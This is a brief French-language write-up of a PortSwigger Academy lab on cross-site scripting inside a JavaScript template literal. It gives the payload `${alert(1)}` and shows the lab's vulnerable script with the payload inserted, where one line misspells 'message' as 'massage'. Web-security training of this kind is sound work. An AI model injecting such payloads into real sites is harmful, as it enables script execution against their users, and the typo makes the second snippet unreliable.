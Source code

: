# Lab 

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped

## Payload

`${alert(1)}`

## Description

Script contenu dans le lab :

```js
var message = `0 search results for 'INPUT'`;
document.getElementById('searchMessage').innerText = message;
```

Le payload est donc interprété comme :

```js
var message = `0 search results for '${alert(1)}'`;
document.getElementById('searchMessage').innerText = massage;
```